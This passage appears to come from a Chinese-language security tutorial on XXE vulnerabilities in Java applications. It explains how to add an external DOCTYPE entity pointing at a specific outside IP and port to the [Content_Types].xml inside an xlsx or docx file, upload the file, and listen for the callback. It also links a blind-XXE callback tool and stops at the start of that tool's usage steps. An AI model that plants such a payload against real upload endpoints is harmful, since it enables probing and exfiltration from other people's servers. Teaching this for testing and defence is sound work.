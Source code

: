 ### 五、Java中上传xlsx或docx文件导致xxe漏洞

1. 在将不为空的xlsx文档或docx文档的后缀名改为zip后，其压包中会出现一个名为`[content_Types].xml`的xml文件

   ![image-20210910001535758](../images/14_XXE漏洞/image-20210910001535758.png)

   我们可以在xml中插入一个外部声明（也可以尝试加载外部实体）
   
   ~~~dtd
   <!DOCTYPE sys SYSTEM "http://120.79.135.77:1234">
   <!-- 写DNSlog的地址也可以 -->
   ~~~
   
   再将zip后缀改为原后缀即可
   
2. 漏洞注入点，一般为上传文件的地方。上传文件后，再在指定ip的对应端口监听即可

### 六、XXE漏洞利用工具

1. 工具地址：[TheTwitchy/xxer: A blind XXE injection callback handler. Uses HTTP and FTP to extract information. Originally written in Ruby by ONsec-Lab. (github.com)](https://github.com/TheTwitchy/xxer)

2. 利用步骤：
